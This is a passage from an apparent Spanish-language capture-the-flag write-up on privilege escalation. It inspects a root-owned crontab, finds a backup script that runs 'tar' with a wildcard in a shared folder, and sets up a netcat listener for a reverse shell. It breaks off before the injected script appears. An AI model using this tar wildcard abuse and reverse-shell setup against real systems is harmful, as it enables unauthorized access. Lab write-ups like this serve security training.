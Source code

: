 Vemos que **cron** esta corriendo como **root**:
```bash
root          24  0.0  0.0   3604  1812 ?        Ss   17:51   0:00 /usr/sbin/cron
```

Vemos el contenido del archivo **crontab**
```bash
robert@cybersec:/$ cat /etc/crontab 

# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
#
*/2 * * * * pedro /bin/bash /usr/local/bin/back.sh
```

Ahora si miramos el contenido en la siguiente ruta:
```bash
*/2 * * * * pedro /bin/bash /usr/local/bin/back.sh
```

Contenido:
```bash
cat /usr/local/bin/back.sh

#!/bin/bash
cd /home/share && tar -czf /home/pedro/back.tar *
```

Vemos que esta creando un una **backup** en la siguiente ruta: **/home/share** y Ahora crearemos el siguieente script en la misma ruta:
Nos ponemso primero en escucha:
```bash
nc -nlvp 444
```
